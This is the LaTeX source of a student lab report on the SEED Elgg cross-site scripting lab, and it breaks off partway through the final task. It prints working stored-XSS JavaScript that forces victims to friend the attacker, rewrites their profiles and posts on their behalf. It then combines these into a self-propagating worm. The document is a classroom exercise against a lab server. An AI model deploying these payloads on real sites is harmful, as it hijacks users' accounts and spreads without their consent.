\documentclass[12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[left=0.75in,right=0.75in,top=0.75in,bottom=0.75in ]{geometry}
\usepackage{multirow}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{rotating}
\usepackage{ragged2e}
\usepackage{multicol}
\usepackage{float}
\usepackage{algpseudocode}
\usepackage{enumitem}
\usepackage{caption}
\usepackage{minted}
\usepackage{subcaption}
\usepackage{xcolor}
\definecolor{LightGray}{gray}{0.95}
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    }

\renewcommand{\figurename}{\textbf{Figure}}
\renewcommand{\thefigure}{\textbf{\arabic{figure}}}

\title{CSE 406 \\
Computer Security Sessional \\
\vspace{10mm}
Assignment 2: Web Security Assignment \\
\vspace{20mm}
Student ID: 1905001 \\
\vspace{15mm}
\RaggedRight
}
\author{}
\date{}

\begin{document}

\maketitle
\newpage
% \tableofcontents

\section*{Task 1 : Becoming the Victim’s Friend}
For making some observation, when Samy added Charlie as a friend, this HTTP request was sent:

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
GET /action/friends/add?friend=58&__elgg_ts=1707404893&__elgg_token=G8NTaeQr5EhZLASu-9B7Uw&__elgg_ts=1707404893&__elgg_token=G8NTaeQr5EhZLASu-9B7Uw HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/charlie
Cookie: elggperm=zhN3G_BuEwIIEwUIhs_dycdo-ZaH4cXa; Elgg=1sk3memisao6ijsf04asuo8q3s
\end{minted}

58 seems to be an ID for Charlie, which was confirmed upon seeing this GET request for displaying Charlie's profile picture in his profile page.

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
GET /serve-file/e0/l1707401864/di/c0/FtBEVGTljF14vKvA9AJ0YRBl95X_hAHrmnXWZBGJnsg/1/58/profile/58large.jpg HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/charlie
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
\end{minted}

We then check Samy's profile and find that his ID is 59. We also want to ensure that Samy does not get vicim of his own attack should he ever visit his own profile. That means, we need to know what the ID of the current session owner is. We find out that this can be known from $elgg.session.user.guid$.

     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss6.png}
         \caption{Current Session Owner Information}
         \label{fig:ss6}
     \end{figure}

We then place the following in Samy's ``About Me'' in ``Edit HTML'' format:

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token= elgg.security.token.__elgg_token; // Security Token
        var myID = 59; // User ID of the attacker (Samy)
        var userID = elgg.session.user.guid; // ID of the visitor

        // If Samy is visiting his own profile, no attack should happen
        if (userID == myID) return;

        var sendurl = `/action/friends/add?friend=${myID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        // Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // Last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
	}
</script>
\end{minted}
After this, when Alice visits Samy's profile, the attack is executed with the following request being sent:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss7.png}
         \caption{GET Request sent as a result of the attack}
         \label{fig:ss7}
     \end{figure}
On reload, we can see that, Samy is now Alice's friend.
     \begin{figure}[H]
         \centering
         
\includegraphics[width=0.7\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}

\newpage


\section*{Task 2 : Modifying the Victim’s Profile}
Again to get idea about what happens under the hood when a user modifies his/her profile, we modify Samy's profile from Samy's account. We see a POST request being made with these headers.

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
POST /action/profile/edit HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------30307574302762552179267116265
Content-Length: 2970
Origin: http://www.seed-server.com
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy/edit
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
Upgrade-Insecure-Requests: 1
\end{minted}

Since this is a POST request, we also need to take a look at the request body. We use the HTTP Header Live add-on for this.

     \begin{figure}[H]
         \centering
         
\includegraphics[width=0.98\textwidth]{Images/ss2.png}
         \caption{POST Request for Profile Update}
         \label{fig:ss2}
     \end{figure}


The content in the image is the following:

\begin{minted}[breaklines=true,breakanywhere=true,bgcolor=LightGray]{text}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{minted}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var sendurl = '/action/profile/edit';
        var content = `__elgg_token=${token}&__elgg_ts=${ts}&name=${userName}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if (guid != 59) {
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
                "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
\end{minted}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.

\begin{minted}[breakanywhere=true,bgcolor=LightGray,breaklines=true,tabsize=4]{html}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";
        var myID = 59; // User ID of Samy

        // If the user is Samy, then the attack is not performed
        if (guid == myID) return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{minted}

In both the cases, we place the malicious script in Samy's ``About Me'' section's ``Edit HTML'' format like the previous task.

So, Alice's profile is once again infiltred with the following consequences:
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss8.png}
         \caption{POST Request sent as a result of the attack}
         \label{fig:ss8}
     \end{figure}
     \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss3.png}
         \caption{Alice's profile gets updated}
         \label{fig:ss3}
     \end{figure}

\newpage


\section*{Task 3: Posting on the Wire on Behalf of the Victim}
To get things going, we make a test post from Samy's profile. The following POST request is made:

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
POST /action/thewire/add HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------32444503430801608504269599436
Content-Length: 443
Origin: http://www.seed-server.com
Connection: keep-alive
Referer: http://www.seed-server.com/thewire/all
Cookie: Elgg=h3bdfki7sh3fb6bi9pk2msv20u
Upgrade-Insecure-Requests: 1
\end{minted}

The request body has this content:

\begin{minted}[breaklines=true,breakanywhere=true,bgcolor=LightGray]{text}
__elgg_token=un1KjOAjar7PKPaDSDuDfA&__elgg_ts=1707419569&body=Test Post
\end{minted}

    \begin{figure}[H]
         \centering
         
\includegraphics[width=0.95\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. So, we place this script in the ``About Me'' section once again:

\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (guid == 59) return; // User ID of Samy

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{minted}

\newpage
When Alice visits Samy's profile this time, a post is made from her profile without her knowing it.
    \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss9.png}
         \caption{POST Request as a result of the attack}
         \label{fig:ss9}
     \end{figure}
    \begin{figure}[H]
         \centering
         
\includegraphics[width=\textwidth]{Images/ss5.png}
         \caption{Wire post made from Alice's profile}
         \label{fig:ss5}
     \end{figure}

\newpage

\section*{Task 4: Design a Self-Propagating Worm}
This task is basically a combination of the three previous tasks. So in the malicious script, there should be three parts:
\begin{itemize}
 \item First part will send a friend request to Samy from the profile of whoever is visiting any profile (except the case of Samy visiting Samy's).
 \item Second part will modify the visitor's profile. However instead of placing any random content in the description part, we will now place this entire malicious script (all the parts of it) there so that it can be self-propagating.
 \item Finally, the third part will make a Wire post containing the visitor's profile link.
\end{itemize}

For the second part, we need to obtain a copy of the script from the web page or we can just copy paste the entire thing. We use the DOM API to retrieve a copy of the script in the following way:
\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
<script id="worm">
	var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
	var jsCode = document.getElementById("worm").innerHTML;
	var tailTag = "</" + "script>";
	var wormCode = headerTag + jsCode + tailTag;
</script>
\end{minted}

The full script is the following:
\begin{minted}[tabsize=4,breaklines=true,breakanywhere=true,bgcolor=LightGray]{html}
<script id="worm" type="text/javascript">
    window.onload = function () {
        // First part: Send Samy a friend request from the visitor's account
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token = elgg.security.token.__elgg_token; // Security Token
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var SamyID = 59;
        if (guid == SamyID) return; // no attack if Samy is the visitor
        var sendurl = `/action/friends/add?friend=${SamyID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        //Create and send Ajax request to add friend
        var Ajax1 = new XMLHttpRequest();
        Ajax1.open("GET", sendurl, true); // last boolean value is for asynchronous request making
        Ajax1.setRequestHeader("Host", "www.seed-server.com");
        Ajax1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax1.send();

        // Second part: Modify the visitor's profile
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";
        var wormCode = headerTag + jsCode + tailTag;
        var sendurl = "/action/profile/edit";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', wormCode);
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);
        var Ajax2 = new XMLHttpRequest();
        Ajax2.open("POST", sendurl, true);
        Ajax2.setRequestHeader("Host", "www.seed-server.com");
        Ajax2.send(formData);


        // Third Part: Post the profile link of the visitor on Wire
        var sendurl = "/action/thewire/add";
        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/" + userName;
        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);
        var Ajax3 = new XMLHttpRequest();
        Ajax3.open("POST", sendurl, true);
        Ajax3.setRequestHeader("Host", "www.seed-server.com");
        Ajax3.send(formData);
    }
</script>
\end{minted}

The conseuquences of this attack are manifold. For example, after Samy added the worm code to his profile,
\begin{itemize}
 \item When Alice visits Samy's profile, Samy gets a friend request from her without her knowing it:
     \begin{figure}[H]
         \centering
